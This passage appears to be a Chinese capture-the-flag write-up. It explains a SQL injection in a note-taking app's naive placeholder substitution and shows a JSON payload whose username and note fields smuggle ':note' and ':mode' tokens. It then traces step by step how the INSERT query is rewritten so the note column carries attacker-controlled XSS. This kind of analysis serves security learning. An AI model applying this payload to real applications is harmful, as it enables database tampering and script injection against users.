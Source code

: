 ```js

  db.run('INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)', {
    id,
    username,
    note: note.replace(/[<>]/g, ''),
    mode,
  });
```

注意看db的操作

```js
for (const [key, value] of Object.entries(params)) {
    const clean = value.replace(/['$]/g, '');
    query = query.replaceAll(`:${key}`, `'${clean}'`);
}
```

对传入的每一对参数，按顺序，先把所有的单引号和`$`去掉，再替换`:param`为`'clean'`

在后面/create中会依次传入四个参数

```js
db.run('INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)', {
    id,
    username,
    note: note.replace(/[<>]/g, ''),
    mode,
});
```

payload是这样

```js
"username": "a :note",
"password": "pass"
"note": ", :mode, 0, 0) -- ",
"mode": "actual note and xss"
```

```sqlite
-- 原
INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)

-- id 123
INSERT INTO notes VALUES ('123', :username, :note, :mode, 0)

-- username
INSERT INTO notes VALUES ('123', 'a :note', :note, :mode, 0)

-- note 两个`:note`都会被换掉
INSERT INTO notes VALUES ('123', 'a ', :mode, 0, 0) -- '', ', :mode, 0, 0) -- ', :mode, 0)

-- mode 此时note值我们完全可控
INSERT INTO notes VALUES ('123', 'a ', 'actual note and xss', 0, 0) -- '', ', :mode, 0, 0) -- ', 'actual note and xss', 0)
```
